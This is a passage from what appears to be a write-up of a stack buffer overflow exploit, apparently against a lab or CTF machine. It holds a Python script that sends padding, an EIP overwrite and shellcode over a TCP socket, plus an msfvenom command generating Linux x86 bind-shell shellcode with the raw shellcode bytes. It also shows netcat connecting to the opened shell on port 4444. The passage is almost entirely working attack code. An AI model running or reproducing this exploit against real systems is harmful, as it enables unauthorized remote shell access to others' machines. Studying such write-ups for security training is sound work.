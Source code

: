 ````python
buf += b"\xad\xf8\x01\x11\x26\xa5\xd0\x23\x2b\x56\x0f\x67\x52"
buf += b"\xd5\xa5\x18\xa1\xc5\xcc\x1d\xed\x41\x3d\x6c\x7e\x24"
buf += b"\x41\xc3\x7f\x6d"


try :

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) #version 4 , tcp communication
	s.connect((host,port))

	payload  = "A"*offset
	payload += EIP
	payload += buf


	s.send(payload)
	print('[*]payload has been sent successfully .')
	s.close()

except :

	print('[*]connection refuesed . . .')
	sys.exit()

````


### after running script set the netcat


##### 5- exploit !
`$nc 192.168.1.8 4444 -v`

![image](https://user-images.githubusercontent.com/67979878/129600198-5b78f0bb-409f-4e97-ae21-dbb98ffe440a.png)


now you have your shell 


let's exploit the target machine now ! 

### notes :

```
it is a linux x86 machine so we need to change the payload in msfvenom

```

`└─$ msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f py -b '\x00'   `


change buf and ip in last script 
```

buf =  b"\x90"*30
buf += b"\xd9\xf7\xb8\x68\x38\x85\x20\xd9\x74\x24\xf4\x5d\x2b"
buf += b"\xc9\xb1\x14\x83\xed\xfc\x31\x45\x15\x03\x45\x15\x8a"
buf += b"\xcd\xb4\xfb\xbd\xcd\xe4\xb8\x12\x78\x09\xb6\x75\xcc"
buf += b"\x6b\x05\xf5\x76\x2a\xc7\x9d\x8a\xd2\xf6\x01\xe1\xc2"
buf += b"\xa9\xe9\x7c\x03\x23\x6f\x27\x09\x34\xe6\x96\x95\x86"
buf += b"\xfc\xa8\xf0\x25\x7c\x8b\x4c\xd3\xb1\x8c\x3e\x45\x23"
buf += b"\xb2\x18\xbb\x33\x85\xe1\xbb\x5b\x39\x3d\x4f\xf3\x2d"
buf += b"\x6e\xcd\x6a\xc0\xf9\xf2\x3c\x4f\x73\x15\x0c\x64\x4e"
buf += b"\x56"
```
run it then set your netcat

